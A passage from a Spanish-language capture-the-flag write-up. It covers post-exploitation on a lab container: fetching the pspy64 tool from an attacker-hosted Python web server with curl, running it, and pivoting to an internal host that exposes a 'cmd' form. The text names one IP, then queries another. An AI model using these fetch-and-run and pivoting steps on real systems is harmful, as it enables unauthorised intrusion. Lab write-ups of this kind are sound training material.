 ###### Usuario `[ toni ]`:
Usaremos la herramienta **pspy64** para enumerar el sistema y encontrar posibles fallas:
De esta url bajamos la version **pspy64**
```bash
https://github.com/DominicBreuker/pspy?tab=readme-ov-file
```

una ves descargado nos montamos un servidor con python para que pueda estar disponible la herramienta:
```bash
python3 -m http.server
```

Desde: **( /tmp )** con el comando **curl** realizaremos la peticon para que se transfiera **pspy64**
```bash
curl http://172.17.0.1/pspy64 -o pspy64
```

Ejecutamos la herramienta pero no obtenemos nada:
```bash
./pspy64
```

Sabiendo que no tenemos estos comandos disponibles:
```bash
toni@a011bfec493b:/tmp$ ping
-bash: ping: command not found
toni@a011bfec493b:/tmp$ ip a
-bash: ip: command not found
toni@a011bfec493b:/tmp$ ifconfig
-bash: ifconfig: command not found
```

## Pivoting `dark2`
El unico que podemos usuar es el comando **curl** por lo que intentamos realizar una peticion a esta direccion **IP** 
```bash
20.20.20.2
```

Al realizar la peticion obtenemos el codigo **HTML**:
```bash
curl http://20.20.20.3
```

```html
<!DOCTYPE html>
<html>
<head>
    <title></title>
</head>
<body>
    <h1>webilegal.com</h1>
    <form action="http://20.20.20.3/process.php" method="post">
        <label for="cmd">Busca un producto ilegal</label><br>
        <input type="text" id="cmd" name="cmd"><br>
        <input type="submit" value="Enviar">
    </form>
</body>
</html>
```
